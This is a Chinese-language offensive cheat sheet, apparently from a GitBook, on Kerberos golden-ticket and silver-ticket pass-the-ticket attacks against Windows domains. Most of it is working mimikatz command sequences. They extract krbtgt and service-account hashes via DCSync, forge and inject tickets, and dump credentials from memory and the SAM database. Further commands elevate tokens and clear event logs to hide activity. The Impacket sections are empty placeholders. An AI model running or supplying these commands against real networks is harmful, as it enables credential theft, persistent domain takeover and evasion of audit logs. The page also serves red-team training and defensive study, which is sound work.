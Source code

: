```yaml
---
description: 适用于在获取目标域内最高权限后的权限维持 / 后渗透密码收集 / 基于Kerberos认证
---
```


# ✔️ 票据传递攻击 - Pass The Ticket

## 黄金票据传递攻击

### 先决条件

* 已获得了目标域内**krbtgt用户**的哈希值
* 已获得了目标域的SID值
* 目标域名
* 要伪造的域用户（高权限账户：域管理员）

### 工具

#### Impacket

```bash
// Some code
```

#### mimikatz.exe

```powershell
mimikatz.exe
# 提取krbtgt账户的NTLM哈希值 (DCSync攻击常用)
lsadump::dcsync /domain:target.com /user:krbtgt
# 生成黄金票据
kerberos::golden /user:administrator /domain:target.com /sid:域SID /krbtgt:312343xxxxxxxxxxx345435565789 /id:500 /target:target.com /renewal:票据的有效时间 /ticket:golden_ticket.kirbi
# 导入
kerberos::ptt golden_ticket.kirbi
# 验证
kerberos::list
# 持久化：可将生成的票据保存下来，后续继续使用
```

{% hint style="info" %}
* 提取NTLM哈希——生成黄金票据——导入伪造的黄金票据——验证票据——持久化
* 黄金票据可访问全域资源
{% endhint %}

## 白银票据传递攻击

### 先决条件

* 已获得了目标域内**服务账户**的哈希值
* 已获得了目标域的SID值
* 目标域名
* 需要知道SPN
* 要伪造的某个特定的服务账户

### 工具

#### Impacket

```bash
// Some code
```

#### mimikatz.exe

```powershell
mimikatz.exe
# 提取服务账户的NTLM哈希
lsadump::dcsync /domain:target.com /user:服务账户名
# 生成白银票据
kerberos::golden /domain:target.com /sid:域SID /target:server.target.com /service:http /rc4:服务账户哈希 /user:administrator /id:用户RID /ptt
# 验证
kerberos::list
# 使用白银票据，例如访问共享目录
\\server.target.com\sharedfolder
# 有条件的持久化：只要服务账户的哈希没改就可以
```

{% hint style="info" %}
* 提取NTLM哈希——生成白银票据——验证票据——有条件的持久化
* 白银票据在本地使用，不与DC交互，因此比黄金票据攻击要隐蔽
* 是针对特定服务的TGS的攻击
{% endhint %}

## 常用命令

### mimikatz.exe

```powershell
# 列出系统上的所有票据
sekurlsa::tickets /export
# 提升权限
privilege::debug
# 提取当前用户凭证
sekurlsa::logonpasswords
# 提取本地SAM数据库中的NTLM哈希
lsadump::sam
# 列出当前用户的 Kerberos 票据（TGT 和 TGS）
sekurlsa::tickets
# 直接提取列出的票据
sekurlsa::tickets /export
# 列出当前用户的所有令牌
token::list
# 在令牌里发现有高权限的账户后，提升权限
token::elevate
# 清除日志
event::clear
```

### 其他

```bash
# 查域SID
whoami /user
whoami /groups
```

{% hint style="info" %}
Kerberos协议是在位于**不受信任的网络中**的**受信任主机上**的**身份验证**协议，在域渗透的过程中主要是利用Kerberos票据来进行攻击，涉及黄金票据和白银票据传递，票据传递攻击本质上是冒充其他高权限用户。
{% endhint %}
